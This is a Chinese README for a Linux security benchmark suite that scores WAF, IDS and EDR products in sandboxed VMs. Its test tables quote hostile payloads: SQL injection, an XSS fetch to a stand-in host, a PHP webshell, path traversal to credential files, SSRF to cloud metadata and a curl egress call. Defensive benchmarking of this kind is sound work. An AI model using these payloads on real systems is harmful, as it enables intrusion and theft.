

<div align="center">


# VGT HardRed (`RedHard`)
### 全栈 Linux 安全基准测试、四轴评估引擎与多域遥测套件

[](LICENSE)
[](THIRD_PARTY_NOTICES.md)
[](CHANGELOG.md)
[](#️-实验性组合基准测试免责声明)
[-lightgrey?style=for-the-badge&logo=linux)](#-2-双平面隔离架构-dual-plane-isolation)
[-3776AB?style=for-the-badge&logo=python)](#-6-快速开始与安装)
[](#-3-六大评估域与-49-个核心测试用例)
[](#-7-标准化取证与审计导出)
[](#-4-四轴数学评分模型与误报门控-fp-gates)
[](https://visiongaiatechnology.de)

**WAF 与应用安全 · 网络 IDS 与 XDP · 内核与终端 XDR · 勒索软件事前遏制 · 恶意软件与嵌套归档 · 合规审计与性能开销**

<br />

🌐 **Languages / Sprachen / Языки / 语言:**  
[English](README.md) · [Deutsch](README.de.md) · [Русский](README.ru.md) · **中文 (简体)**

</div>

---

## ⚠️ 实验性组合基准测试免责声明

> [!IMPORTANT]
> **实验性元基准测试与组合验证套件：**  
> **VGT HardRed (`RedHard`)** 是由 **Vision Gaia Technology (VGT)** 开发的实验性开源安全基准测试编排套件。它将经过审计的成熟开源测试框架（**Wallarm GoTestWAF**、**OWASP CRS go-ftw**、**CNCF Falco `event-generator`**、**Red Canary Atomic Red Team**、**CISOfy Lynis**、**ClamAV testfiles**、**Sysbench** 与 **FIO**）与确定性的自研 Go 内核、勒索软件和网络探针（`hardred-probe`、`hardred-netbench`）结合到一个统一的、基于虚拟机快照隔离的评估流水线中。  
>
> **仅限授权实验室环境使用：** 尽管所有终端探针均强制执行严格的故障关闭路径沙箱限制（`/tmp/hardred-sandbox` 和 `/dev/shm/hardred-sandbox`），本套件仍会在目标沙箱内执行真实的 Web 漏洞利用载荷、暴力破解突发流量、内核系统调用刺激以及原位 AES-256 文件加密。请**仅**在您拥有所有权或已获得明确书面测试授权的隔离虚拟机与实验室网络中运行本套件。

---

## 1. 概述 — 为什么构建 VGT HardRed

长期以来，Linux 安全软件的评估处于高度割裂的状态：
- **Web 应用防火墙 (WAF)** 通常仅使用 HTTP 载荷工具（`GoTestWAF`、`go-ftw`）进行孤立测试，既忽略了主机资源开销，也未检验单次误报（False Positive）是否会通过联动的防火墙阻断器（Bouncer）直接封禁整个客户端 IP。
- **终端检测与响应 (EDR/XDR) 及内核安全模块 (LSM)** 往往通过零散的 MITRE ATT&CK 脚本（`Atomic Red Team`、`Falco event-generator`）进行测试，仅检查是否产生了日志告警，却未区分 **主动阻断 (Prevention) 与被动检测 (Detection)**，也未量化 **首次告警时间 (TTFA)** 或 **勒索软件事前遏制损坏率 (Pre-Kill Damage)**（即在进程树被冻结或终止前已有多少文件被加密）。
- **网络 IDS/IPS 与阻断器** 很少在相同内核条件下与终端及 L7 防护层联合评测，更缺乏跨安全域误报级联效应的验证。
- **系统合规性与性能开销**（`Lynis`、`sysbench`、`fio`、HTTP `p95`/`p99` 延迟、安全守护进程 RSS 内存与 CPU 占用）通常在脱离主动攻防的独立基准中测量。

**VGT HardRed (`RedHard`)** 将上述六个层面统一到一个**厂商中立、基于快照还原的全栈基准测试框架**中。每一个被测安全系统（`SUT`）都在完全相同的操作系统镜像、内核、Web 栈、攻击向量、良性误报控制样本以及硬件负载下接受检验。

---

## 2. 双平面隔离架构 (Dual-Plane Isolation)

自动化安全基准测试的一个常见设计缺陷是 **自锁死 (Self-Lockout)**：一旦 IPS、XDP 过滤器或防火墙阻断器在端口扫描或 WAF 测试期间封禁了攻击源 IP，测试编排器就会立即丢失 SSH 连接，导致无法读取遥测数据或执行后续测试。

VGT HardRed 通过严格的 **双平面网络隔离** 配合 **虚拟机管理程序快照还原** 彻底解决了这一问题：



1. **控制平面 (`Control-Plane`, `127.0.0.1:2222 -> eth0:22`, 源 IP `10.0.2.2`)：** 专用于快照同步、分发 `hardred-probe`、在每个测试用例前后捕获遥测游标，以及采集 `/proc` RSS/CPU 指标。
2. **攻击平面 (`Attack-Plane`, `192.168.56.1 -> eth1:192.168.56.50`)：** 承载所有恶意与良性网络/HTTP 探测流量。攻击源 IP `192.168.56.1` **绝不**被加入任何白名单。在单个 WAF/NetIDS 测试用例之间，适配器通过控制平面主动清除针对攻击源 IP 的临时封禁，确保每个用例从干净状态启动。
3. **每个被测系统的冷快照重置：** 在评测任何候选系统（`baseline`、`gedefense`、`wazuh`、`crowdsec` 或自定义系统）之前，`VMController.restore_snapshot()` 会关闭虚拟机，还原该系统的专用快照，重新启动客户机并等待 SSH 与安全服务就绪。

---

## 3. 六大评估域与 49 个核心测试用例

VGT HardRed 在五大安全域中执行 **49 个确定性核心测试用例**（**36 个攻击向量** + **13 个良性误报对照用例**），并结合 **GoTestWAF 自动化语料库测试（816 个载荷）**、**Lynis + 内核 LSM 合规审计** 以及 **四维性能开销基准测试**。

### 3.1 域 1 — `hardred-waf`（权重：`25 %` · 14 个攻击 + 8 个良性对照 + GoTestWAF）

| 用例 ID | 极性 | MITRE | 工具 / 来源 | 验证目标 |
| :--- | :---: | :---: | :--- | :--- |
| `WAF-BENIGN-01..08` | `benign` | `NONE` | `hardred-http-keepalive` | 8 个合法的 HTTP/JSON/UTF-8 请求（包含带有 SQL 词汇的英文句子 `"Please select a union contract..."` 及数学表达式 `calc=(10+20)*3/2`）。**任何阻断均记为 WAF 防护误报 (Protection FP)。** |
| `WAF-SQLI-01` | `attack` | `T1190` | `hardred-http` | 经典 `UNION ALL SELECT NULL,user(),database()--` SQL 注入 |
| `WAF-SQLI-02` | `attack` | `T1190` | `hardred-http` | 内联注释混淆布尔永真注入 (`/?id=1/**/oR/**/1=1--`) |
| `WAF-SQLI-03` | `attack` | `T1190` | `hardred-http` | JSON 请求体 SQL 认证绕过 (`{"user":"admin' OR '1'='1"}`) |
| `WAF-XSS-01` | `attack` | `T1059.007` | `hardred-http` | 反射型 `<script>alert(document.cookie)</script>` |
| `WAF-XSS-02` | `attack` | `T1059.007` | `hardred-http` | SVG 事件处理器 XSS (`<svg/onload=fetch('//evil.invalid')>`) |
| `WAF-LFI-01` | `attack` | `T1083` | `hardred-http` | 路径遍历读取 (`../../../../etc/passwd`) |
| `WAF-LFI-02` | `attack` | `T1083` | `hardred-http` | 双重 URL 编码路径遍历 (`..%252f..%252f..%252fetc%252fshadow`) |
| `WAF-RCE-01` | `attack` | `T1059.004` | `hardred-http` | 查询字符串操作系统命令拼接 (`?cmd=;cat%20/etc/passwd%23`) |
| `WAF-RCE-02` | `attack` | `T1505.003` | `hardred-http` | 原始 PHP Webshell 载荷上传 (`<?php system($_GET['cmd']); eval($_POST['x']); ?>`) |
| `WAF-SSTI-01` | `attack` | `T1190` | `hardred-http` | 多态服务端模板注入 (`{{7*7}}${7*7}<%=7*7%>`) |
| `WAF-XXE-01` | `attack` | `T1190` | `hardred-http` | XML 外部实体注入 `SYSTEM "file:///etc/passwd"` |
| `WAF-SSRF-01` | `attack` | `T1552.005` | `hardred-http` | 云元数据服务 IMDS SSRF (`http://169.254.169.254/latest/meta-data/...`) |
| `WAF-SCAN-01` | `attack` | `T1595.002` | `hardred-http` | 携带 `User-Agent: sqlmap/1.8.4#stable` 探测敏感文件 (`/.env`) |
| `WAF-FAILOPEN-01` | `attack` | `T1190` | `hardred-http` | 780 KB 超大请求体填充并在末尾附带 PHP Webshell 载荷（逃逸与漏检测试） |

### 3.2 域 2 — `hardred-netids`（权重：`20 %` · 4 个攻击 + 2 个良性对照）

| 用例 ID | 极性 | MITRE | 工具 / 来源 | 验证目标 |
| :--- | :---: | :---: | :--- | :--- |
| `NET-BENIGN-01` | `benign` | `NONE` | `hardred-netbench` | 正常间隔的合法 HTTP 流量（6 次请求，间隔 250 ms） |
| `NET-BENIGN-02` | `benign` | `NONE` | `urllib-tls` | 4 次标准 TLS 1.3 HTTPS 握手与 GET 请求 |
| `NET-BRUTE-HTTP-01` | `attack` | `T1110.001` | `hardred-netprobe` | 针对 `/wp-login.php` 的 25 次快速 HTTP POST 凭据喷洒 |
| `NET-BRUTE-SSH-01` | `attack` | `T1110.001` | `hardred-netbench` | 18 次连续 SSH 登录失败暴力破解（精确测量第几次尝试触发 IP 封禁） |
| `NET-VELOCITY-01` | `attack` | `T1499.002` | `hardred-netbench` | 高并发 HTTP 洪泛攻击（28 个并发线程发送 240 次请求） |
| `NET-PORTSCAN-01` | `attack` | `T1046` | `hardred-netbench` | 跨越关闭与开放端口（`21..9200`）的 16 端口 TCP 连接扫描及扫描后封禁验证 |

### 3.3 域 3 — `hardred-endpoint`（权重：`35 %` · 15 个攻击 + 2 个良性对照）

| 用例 ID | 极性 | MITRE | 工具 / 来源 | 验证目标 |
| :--- | :---: | :---: | :--- | :--- |
| `EP-BENIGN-01` | `benign` | `NONE` | `system-admin` | 正常系统管理任务（`dpkg-query`、读取 `/etc/os-release`、`tar.gz` 备份、`sha256` 校验）。**误阻断容忍度为 0 %。** |
| `EP-BENIGN-02` | `benign` | `NONE` | `bash+python3` | 检查 `/etc/nginx` 目录的标准管理员进程链 |
| `EP-FILELESS-MEMFD-01` | `attack` | `T1620` | `hardred-probe` | 通过 `memfd_create` + `execve("/proc/self/fd/<fd>")` 的内存无文件执行 |
| `EP-SHM-EXEC-01` | `attack` | `T1059.004` | `hardred-probe` | 从 `tmpfs` (`/dev/shm/hardred-sandbox`) 释放并执行恶意脚本 |
| `EP-TMP-ELF-01` | `attack` | `T1204.002` | `hardred-probe` | 将未签名验证的 ELF 二进制文件复制到 `/tmp/hardred-sandbox/tmpexec` 并执行 |
| `EP-LPE-KERNEL-01` | `attack` | `T1068` | `hardred-probe` | 内核高危协议套接字创建（`IPPROTO_SCTP`、`IPPROTO_DCCP`、`AF_PACKET`）、`ptrace` 与 `/etc/shadow` 读取 |
| `EP-RANSOM-AES-01` | `attack` | `T1486` | `hardred-probe` | **120 个真实文件的原位 AES-256-GCM 勒索加密突发**（测量香农熵跃升 `~4.8 -> ~8.0`、TTFA 及精确的 `damaged / 120` 事前损坏比） |
| `EP-RANSOM-STORM-01` | `attack` | `T1485` | `hardred-probe` | **600 个文件分 50 批次的快速重命名与擦除风暴**（`damaged / 600` 事前损坏比） |
| `EP-LINEAGE-CHILD-01` | `attack` | `T1059` | `hardred-probe` | 父进程派生子进程执行 60 个文件的 AES-256 加密（验证进程树 / PGID 连带终止能力） |
| `EP-C2-EGRESS-01` | `attack` | `T1071.001` | `styx-cgroup-curl` | 从活动的 `php8.3-fpm.service` cgroup 内部发起未授权的出站 C2 连接 (`curl http://1.1.1.1/`) |
| `EP-FALCO-01..03` | `attack` | `T1003` / `T1036` / `T1055` | `falco-event-generator` | 真实内核系统调用：`ReadSensitiveFileUntrusted`、`CreateSymlinkOverSensitiveFiles`、`PtraceAntiDebugAttempt` |
| `EP-ART-T1087..T1548` | `attack` | `T1087` / `T1059` / `T1053` / `T1548` | `atomic-red-team` | Linux Atomic Red Team TTP：本地账户枚举、Base64 管道 Shell、Crontab 持久化、SUID 提权枚举 |

### 3.4 域 4 — `hardred-malware`（权重：`10 %` · 3 个攻击 + 1 个良性对照）

| 用例 ID | 极性 | MITRE | 工具 / 来源 | 验证目标 |
| :--- | :---: | :---: | :--- | :--- |
| `MAL-BENIGN-01` | `benign` | `NONE` | `hardred-malware` | 向沙箱写入干净的 JSON 清单与压缩 JS 资源 |
| `MAL-EICAR-DISK-01` | `attack` | `T1027` | `eicar-standard` | 磁盘落地 EICAR 标准测试文件 + 检查实时告警与自动隔离 |
| `MAL-EICAR-HTTP-01` | `attack` | `T1105` | `eicar-http` | 通过 Web/WAF 栈进行 HTTP `POST` 二进制 EICAR 上传检测 |
| `MAL-NESTED-ARCHIVE-01` | `attack` | `T1027.002` | `clamav-testfiles` | 8 层嵌套 ZIP 归档封装 + `clam.bz2.zip` 归档扫描 |

### 3.5 域 5 与域 6 — `hardred-compliance`（`10 %`）与 `hardred-perf`（`轴 4`）
- **`hardred-compliance`：** 运行 `Lynis 3.1.8` (`./lynis audit system --quick --no-colors`) 获取主机加固指数 (`Hardening Index`)、警告数与建议数，并结合 `/sys/kernel/security/lsm` 中的活动内核安全模块列表进行评分。
- **`hardred-perf`：** 执行 `hardred-netbench http-bench`（16 并发，4,000 请求 -> `RPS`、`p50`、`p95`、`p99`）、`sysbench cpu run`、`fio` 随机写（`fsync=1`），并采样所有活动安全守护进程的常驻内存（`RSS MiB`）与 CPU 占用率（`%`）。

---

## 4. 四轴数学评分模型与误报门控 (FP Gates)

在 [vgt_hardred/scoring.py](vgt_hardred/scoring.py) 中实现的评分引擎严格区分 **被动检测 (Detection)** 与 **主动阻断 (Prevention)**：

1. **单域得分 (`0–100`)：**
   $$\text{DomainScore} = 100 \times \left( 0.30 \cdot \text{TPR}_{\text{det}} + 0.45 \cdot \text{TPR}_{\text{prev}} + 0.15 \cdot \text{BalancedAcc} + 0.10 \cdot \frac{\text{ContextMaturity}}{3.0} \right)$$
   其中 **告警上下文成熟度 (`Context Maturity`)** 在 [vgt_hardred/adapters/base.py](vgt_hardred/adapters/base.py) 中按确定性规则评级：
   - `0` = 盲区（无告警）
   - `1` = 通用计数器或缺乏上下文属性的简单 IP 提示
   - `2` = 丰富遥测（包含 `pid`、`exe`、`process`、`uri`、`src_ip`、`rule_id`、`target`、`cmdline` 中的至少 2 项）
   - `3` = 因果关联、进程血缘（`ppid`/`lineage`）、攻击故事有向无环图 (DAG) 或加密证据链哈希

2. **轴 1 — 加权防护有效性（占总分 `45 %`）：**
   $$\text{Axis}_1 = 0.35 \cdot S_{\text{endpoint}} + 0.25 \cdot S_{\text{waf}} + 0.20 \cdot S_{\text{netids}} + 0.10 \cdot S_{\text{malware}} + 0.10 \cdot S_{\text{compliance}}$$

3. **轴 2 — 误报韧性与 AMTSO/WCP 门控（占总分 `20 %`）：**
   $$\text{Axis}_2 = \max\left(0,\; 100 - \left(200 \cdot \text{FPR}_{\text{det,all}} + 600 \cdot \text{FPR}_{\text{prot,all}}\right)\right)$$
   - **`Gate: FAIL`**：若终端防护误报率 (Endpoint Protection FPR) $> 0.0\%$（阻断任何合法管理员命令）**或** WAF 防护误报率 $> 1.0\%$。
   - **`Gate: CONDITIONAL`**：若终端或 WAF 检测误报率 (Detection FPR) $> 5.0\%$，或针对未受保护的 `baseline` 基线对照组。
   - **`Gate: PASS`**：所有防护与检测误报率均满足严格门控阈值。

4. **轴 3 — 响应延迟 (TTFA) 与事前损坏遏制（占总分 `20 %`）：**
   $$\text{Axis}_3 = 0.55 \cdot \text{Score}_{\text{TTFA}} + 0.45 \cdot \left(1 - \overline{\text{DamageRatio}}\right) \times 100$$
   - $\text{Score}_{\text{TTFA}}$ 采用对数衰减曲线（$\le 50\text{ ms}$ 得 $100$ 分，超过 $50\text{ ms}$ 按 $100 - 24 \cdot \log_{10}(\text{TTFA}_{\text{ms}}/50)$ 计算）并按检测覆盖率折算。
   - $\overline{\text{DamageRatio}}$ 计算 `EP-RANSOM-AES-01`（`120`）、`EP-RANSOM-STORM-01`（`600`）与 `EP-LINEAGE-CHILD-01`（`60`）的平均文件损坏比例 `damaged_files / total_files`。若某安全产品在 `120/120` 个文件全部被加密后才发出告警，则其在该项测试中的事前遏制得分为 `0`。

5. **轴 4 — 运行开销与系统稳定性（占总分 `15 %`）：**
   对比干净基线快照，对 HTTP `p95` 延迟增长（最高扣 `35` 分）、`fio` IOPS 下降（最高扣 `15` 分）、安全守护进程 RSS 内存占用（每 GiB 扣 `18` 分，最高扣 `30` 分）及 CPU 占用率（最高扣 `20` 分）进行有界扣分。

---

## 5. 如何独立评测任何 Linux 安全系统

VGT HardRed 围绕厂商中立的 **`ContenderAdapter` 协议**（[vgt_hardred/adapters/base.py](vgt_hardred/adapters/base.py)）构建。仓库内置了四个适配器：
- `baseline`：干净的 Linux WebStack 基线参考（[vgt_hardred/adapters/baseline.py](vgt_hardred/adapters/baseline.py)）
- `gedefense`：GeDefense Linux Security Fabric（[vgt_hardred/adapters/gedefense.py](vgt_hardred/adapters/gedefense.py)）
- `wazuh`：Wazuh Manager/Agent + Active Response + Auditd（[vgt_hardred/adapters/wazuh.py](vgt_hardred/adapters/wazuh.py)）
- `crowdsec`：CrowdSec 安全引擎 + 防火墙与 Nginx AppSec 阻断器（[vgt_hardred/adapters/crowdsec.py](vgt_hardred/adapters/crowdsec.py)）

### 接入新的安全系统（如 Falco、Tetragon、ModSecurity/Coraza、OSSEC）

1. **准备干净的虚拟机快照：**
   在目标 Linux 虚拟机上安装待测安全产品，将其规则集配置为生产或最高防护状态，确保控制平面源 IP（`10.0.2.2`）可通过 SSH 访问，并创建 VirtualBox 快照（例如 `06-falco-max`）。
2. **在 `vgt_hardred/adapters/<name>.py` 中实现包含 5 个方法的 `ContenderAdapter` 接口：**
   ```python
   from vgt_hardred.adapters.base import AdapterCursor, TelemetryVerdict, compute_context_maturity
   from vgt_hardred.models import GroundTruthCase
   from vgt_hardred.vm_control import VMController

   class CustomSecurityAdapter:
       contender_id = "custom_sec"

       def __init__(self, vm: VMController) -> None:
           self.vm = vm

       def service_names(self) -> list[str]:
           return ["custom-sec-daemon"]

       def prepare(self) -> None:
           self.vm.ensure_sandboxes()

       def clear_attacker_blocks(self) -> None:
           # 在测试用例之间清除针对 self.vm.cfg.attacker_source_ip 的临时封禁
           self.vm.ssh(f"sudo custom-cli unban {self.vm.cfg.attacker_source_ip} || true")

       def capture_cursor(self) -> AdapterCursor:
           # 在测试用例开始前记录日志文件字节偏移量或 API 事件计数器
           _, out, _ = self.vm.ssh("sudo stat -c %s /var/log/custom-sec/alerts.json || echo 0")
           return AdapterCursor(captured_utc="", state={"offset": int(out.strip() or 0)})

       def collect_since(self, cursor: AdapterCursor, case: GroundTruthCase, started_utc: str, settle_sec: float = 1.5) -> TelemetryVerdict:
           # 读取自 cursor.state["offset"] 以来产生的新告警，计算 TTFA 与上下文成熟度
           ...
   ```
3. **在 [configs/targets.json](configs/targets.json) 与 [vgt_hardred/cli.py](vgt_hardred/cli.py) 中注册该候选系统** 并启动测试。

---

## 6. 快速开始与安装

### 6.1 环境要求
- **宿主机系统：** Windows 10/11 或 Linux x86_64，已安装 **Python 3.11+**、**Go 1.22+**、**Git**、**OpenSSH 客户端**（`ssh`、`scp`）以及 **Oracle VirtualBox**（`VBoxManage`）或 KVM/SSH 目标。
- **目标虚拟机：** Ubuntu 24.04 LTS（HWE 内核 `6.8+` 或 `7.0+`），`eth1`（`192.168.56.50`）运行 Nginx + PHP-FPM，`eth0`（`127.0.0.1:2222`）开启 SSH，并已安装 `sysbench` 与 `fio`。

### 6.2 构建自研 Go 探针与固定版本的第三方测试套件
```bash
git clone https://github.com/visiongaiatechnology/redhard.git
cd redhard

# 编译静态 Go 探针 (probes/bin/*) 并拉取/编译固定版本的第三方开源测试套件 (third_party/*)
python scripts/bootstrap_third_party.py

# 或者仅编译自研 Go 探针而不克隆第三方仓库：
python scripts/bootstrap_third_party.py --probes-only
```

### 6.3 配置目标虚拟机并运行基准测试
1. 将 `configs/targets.example.json` 复制为 `configs/targets.json`，配置您的 SSH 密钥路径（`ssh_key`）、虚拟机名称与各候选系统的快照名称。
2. 运行完整的多系统对比评测或针对单一系统的回归测试：
```bash
# 对 configs/targets.json 中配置的所有候选系统执行完整评测
python -m vgt_hardred run --config configs/targets.json --results-dir results

# 仅针对单一候选系统执行评测（例如在升级规则集或修复代码后）
python -m vgt_hardred run --config configs/targets.json --contenders gedefense --results-dir results

# 基于已保存的原始运行数据重新计算四轴评分卡、OCSF/SARIF/ATT&CK 导出文件、CSV 与 Glass 2100 HTML 仪表盘
python -m vgt_hardred rescore --config configs/targets.json --results-dir results
```

### 6.4 运行单元测试与安全边界验证
```bash
# Python 单元测试（四轴评分数学模型、AMTSO/WCP 门控、OCSF/SARIF/ATT&CK 架构验证、沙箱路径隔离）
python -m unittest discover -s tests -v

# Go 探针单元测试（沙箱路径遍历拦截、香农熵计算、AES-256-GCM 加密突发、netbench 解析器）
cd probes && go test -count=1 -v ./...
```

---

## 7. 标准化取证与审计导出

每次基准测试均会在 `results/` 下生成确定性的、可机器验证的审计产物：
- **`results/<contender>/scorecard.json` 与 `meta.json`：** 完整的逐用例评测真值、原始遥测告警、TTFA 时间戳、事前损坏文件计数及性能指标。
- **`results/<contender>/<contender>.ocsf.jsonl`：** Open Cybersecurity Schema Framework (`v1.9.0`) 检测发现（`class_uid: 2004`）事件流。
- **`results/<contender>/<contender>.sarif.json`：** OASIS SARIF `v2.1.0` 格式报告，可直接集成至自动化安全仪表盘。
- **`results/<contender>/<contender>.attack_layer.json`：** MITRE ATT&CK Navigator `v4.5` 图层文件，用于可视化技术覆盖矩阵。
- **`results/FINAL_BENCHMARK_REPORT.md` 与 `results/VGT_HardRed_Comparison.csv`：** 完整的多系统排名表与逐用例对比矩阵。
- **`results/VGT_HardRed_Dashboard.html`：** 零外部依赖的独立交互式 **VGT Glass 2100 HTML5 仪表盘**。

---

## 8. 仓库结构与开源许可

```text
redhard/
├── assets/
│   └── vgtcode.png                 # Vision Gaia Technology 标志
├── configs/
│   ├── benchmark_matrix.json       # 6 大评估域配置定义
│   ├── targets.example.json        # 脱敏的虚拟机与候选系统配置模板
│   └── targets.json                # 默认基准测试配置
├── probes/                         # 自研静态 Go 探针 (AGPL-3.0-only)
│   ├── cmd/hardred-probe/          # 终端内核、memfd、LPE 与勒索软件模拟器
│   ├── cmd/hardred-netbench/       # HTTP 负载、高速突发、TCP 端口扫描与 SSH 喷洒工具
│   └── internal/{jail,metrics,netbench,probe}/
├── scripts/
│   └── bootstrap_third_party.py    # Go 探针与固定版本第三方套件的确定性构建脚本
├── tests/
│   └── test_hardred.py             # 评分模型、导出器架构与故障关闭沙箱单元测试
├── third_party/
│   └── THIRD_PARTY_NOTICES.md      # 上游提交哈希、SHA-256 校验值与 OSI 许可证声明
├── vgt_hardred/                    # 自研 Python 3.11+ 编排器 (AGPL-3.0-only)
│   ├── adapters/                   # 可插拔候选系统适配器 (baseline, gedefense, wazuh, crowdsec)
│   ├── runners/                    # 6 大评估域执行引擎 (waf, netids, endpoint, malware, compliance, perf)
│   ├── cli.py                      # CLI 入口 (run, rescore)
│   ├── exporters.py                # OCSF 1.9.0、SARIF 2.1.0 与 MITRE ATT&CK Navigator 导出器
│   ├── models.py                   # GroundTruthCase、CaseResult 与 Scorecard 严格数据模型
│   ├── report_glass.py             # Markdown 报告、CSV 与 VGT Glass 2100 HTML5 仪表盘生成器
│   ├── scoring.py                  # 四轴数学评分与 AMTSO/WCP 门控引擎
│   └── vm_control.py               # 虚拟机快照还原与带外 SSH/SCP 控制器
├── ARCHITECTURE.md                 # 架构与数学模型规范
├── CHANGELOG.md                    # 版本变更记录
├── LICENSE                         # GNU Affero 通用公共许可证 v3.0 (AGPL-3.0-only)
├── README.md                       # 主文档 (English)
├── README.de.md                    # 德语文档 (Deutsch)
├── README.ru.md                    # 俄语文档 (Русский)
├── README.zh.md                    # 简体中文文档 (中文)
├── SECURITY.md                     # 负责任使用与安全漏洞报告策略
├── THIRD_PARTY_NOTICES.md          # 完整的第三方归属与许可证台账
├── VERSION                         # 发布版本号 (1.0.0)
└── pyproject.toml                  # Python 包清单
```

### 开源许可 (License)
- **自研代码 (First-Party Code)：** 采用 **GNU Affero General Public License v3.0 only (`AGPL-3.0-only`)** 许可 — 详见 [LICENSE](LICENSE)。
- **第三方基准测试套件 (Third-Party Suites)：** 遵循各自的上游开源许可证（`MIT`、`Apache-2.0`、`GPL-2.0`、`GPL-3.0`），详见 [THIRD_PARTY_NOTICES.md](THIRD_PARTY_NOTICES.md)。
